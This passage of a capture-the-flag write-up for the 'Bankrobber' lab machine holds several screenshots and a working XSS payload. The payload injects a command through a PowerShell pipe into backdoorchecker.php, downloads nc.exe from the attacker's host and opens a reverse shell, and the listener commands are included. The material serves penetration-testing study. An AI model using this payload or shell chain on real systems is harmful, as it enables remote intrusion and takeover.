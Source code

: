 <br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After a while of trial and error I find the problem in my malicious script, for the creation of the **Request** I have to change the declaration of the variable (use **var** and not **let**), also I use again the credentials of the account I created and not the **admin** ones, this way I could execute the command remotely. To access the system I only need `nc.exe`, start a local **SMB** server with `impacket-smbserver` so that `nc.exe` is accessible, update my malicious **.js** file with the command in which `nc.exe` is responsible for sending me a **Reverse Shell**, with `nc` I open port **443** to catch the incoming communication and finally perform the **XSS** to engage the machine. Already in the system I perform some enumeration commands and I can also see the content of the first flag.

> **Attacker Machine**:

```bash
nvim pwn3d_rce.js
# let <--> var
python3 -m http.server 80
tcpdump -i tun0 icmp -n

nvim pwn3d_rce.js
cat !$
```

> **pwn3d_rce.js**:

```js
var xhr = new XMLHttpRequest();
param = 'cmd=dir|powershell -c "iwr -uri http://10.10.14.10/nc.exe -OutFile %tmp%\\nc.exe"; %tmp%\\nc.exe -e cmd 10.10.14.10 443';
xhr.open("POST",'http://localhost/admin/backdoorchecker.php', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send(param);
```

```bash
locate nc.exe
cp /usr/share/windows-resources/binaries/nc.exe .
python3 -m http.server 80
rlwrap -cAr nc -nlvp 443
```
